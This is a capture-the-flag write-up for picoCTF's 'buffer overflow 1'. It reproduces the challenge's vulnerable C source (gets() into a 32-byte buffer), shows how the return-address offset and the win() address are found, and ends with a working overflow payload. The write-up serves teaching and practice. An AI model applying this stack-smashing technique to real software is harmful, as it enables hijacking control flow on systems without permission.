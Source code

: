 # buffer overflow 1
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Control the return address Now we're cooking! 
You can overflow the buffer and return to the flag function in the [program](https://github.com/jon-brandy/CTF-WRITE-UP/blob/4b15b8791f8a6558c6fc8bfedeba343c9ab77ec7/Asset/buffer%20overflow%201/vuln). 
You can view source [here](https://github.com/jon-brandy/CTF-WRITE-UP/blob/9cda637bea2a85da46ba8dce3c9ccf131928092f/Asset/buffer%20overflow%201/vuln.c). And connect with it using 
`nc saturn.picoctf.net 49449`.
## HINTS:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.
## STEPS:
1. First, download both file given.
2. Next, check the program, is it executeable or not.

![image](https://user-images.githubusercontent.com/70703371/184164409-dfc35fd8-6e24-4756-832e-de899e682792.png)

3. Seems we can make it executable and nicely it's not stripped, so we can see the function.
4. But before make it executeable, let's check are there any protection on the file.
5. Run -> `checksec --file vuln`.

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/184164974-2c09f927-035a-4b92-af20-35eaeca03ca3.png)

6. Seems like there's no protection, which means there's many solutions available here.

```
WE MAY:

Do bufferoverflow
Inject shellcode
````

7. Anyway let's view the source code.

> vuln.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); 
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE]; 
  gets(buf); 

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

8. Seems like there's a vuln here.

![image](https://user-images.githubusercontent.com/70703371/187901057-afcd349f-4dfb-4a30-b46b-4df0dd29f0be.png)

9. Let's run the program and input 32 A's.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/187900683-18470f53-aee9-49e0-90e7-317b9d573753.png)

10. Well let's try 36 A's now.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/187902266-209e5aa4-6a52-483c-b8d2-5ca3ccea166d.png)

11. Try 40 now.

![image](https://user-images.githubusercontent.com/70703371/187902360-9bc7428d-07af-42c9-8763-fd016d9d4409.png)

12. We got segmentation fault, means the program just crashed. 
13. But let's try to add another 4 bytes -> 44 A's.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/187903022-47f70b6e-b9d1-4b42-842c-4a389eaa5dd7.png)

14. Again we got segmentation fault, but we jumped to different address now.
15. But when i tried to add another 4 bytes -> 48 A's, i got this output.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/187903590-68f676dc-7e25-40ee-8cd1-c80a29c7be5e.png)

16. Notice 0x41 represent -> 'A'.
17. Great now we know the point where we can control the return address.
18. Next to find the address of `win` function i used a tools called `Cutter`.

> COMMAND 

```sh
Cutter vuln
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/187904538-6031f2c6-baf6-473a-bd92-163279f77d35.png)

19. Click the `sym.win`.

![image](https://user-images.githubusercontent.com/70703371/187904668-a1c26203-81da-4ad4-afe4-0310e42c2ab5.png)

![image](https://user-images.githubusercontent.com/70703371/187904851-06d7c870-4c20-4e59-b3ea-cf2cc2b30b9e.png)

> win address

```
0x080491f6
```

20. Based from the hint number 1 about endian, we know we can't display hexa bytes like this -> `0x080491f6`. We must display it in `Little-Endian`.

> ABOUT LITTLE ENDIAN

```
https://en.wikipedia.org/wiki/Endianness
```

21. And to add the little endian behind the A string, we can't use print.
22. But use:

```py
sys.stdout.buffer.write()
```

23. So for the strings would be like this:

```py
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08'
```


## LEARNING REFERENCES:

```
https://en.wikipedia.org/wiki/Endianness
```

